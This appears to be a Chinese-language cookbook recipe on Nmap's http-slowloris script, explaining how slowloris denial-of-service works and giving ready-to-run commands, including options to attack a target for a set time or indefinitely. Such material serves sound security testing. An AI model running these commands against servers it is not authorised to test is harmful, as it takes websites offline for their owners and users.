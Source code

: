 此食谱展示了如何使用 Nmap 检测 Web 服务器是否容易受到 slowloris DoS 攻击的影响。

## 如何做...

要使用 Nmap 对远程 Web 服务器发起 slowloris 攻击，请使用以下命令：

```
# nmap -p80 --script http-slowloris --max-parallelism 300 <target>

```

结果包括一些攻击统计数据：

```
PORT   STATE SERVICE REASON 
80/tcp open  http    syn-ack
| http-slowloris:
|   Vulnerable:
|   the DoS attack took +5m35s
|   with 300 concurrent connections
|_  and 900 sent queries

```

## 它是如何工作的...

参数`-p80 --script http-slowloris`在端口 80（`-p80`）检测到 Web 服务器时启动 NSE 脚本`http-slowloris`。

slowloris DoS 技术的工作方式与其他拒绝服务技术不同，其他技术会通过请求淹没通信渠道。Slowloris 使用最小的带宽，不会消耗大量资源，只发送最少量的信息以保持连接不关闭。

RSnake 的官方说明可在[`ha.ckers.org/slowloris/`](http://ha.ckers.org/slowloris/)找到。

NSE 脚本由 Aleksandar Nikolic 和 Ange Gutek 编写。官方文档可在以下网址找到：

[`nmap.org/nsedoc/scripts/http-slowloris.html`](http://nmap.org/nsedoc/scripts/http-slowloris.html)

## 还有更多...

要设置每个 HTTP 标头之间的时间，请使用以下命令中的脚本参数`http-slowloris.send_interval`：

```
$ nmap -p80 --script http-slowloris --script-args http-slowloris.send_interval=200 --max-parallelism 300

```

要在一定时间内运行 slowloris 攻击，请使用以下命令中显示的脚本参数`http-slowloris.timelimit`：

```
$ nmap -p80 --script http-slowloris --script-args http-slowloris.timelimit=15m <target>

```

或者，还有一个参数可用于告诉 Nmap 无限期地攻击目标，如以下命令所示：

```
$ nmap -p80 --script http-slowloris --script-args http-slowloris.runforever <target>

```
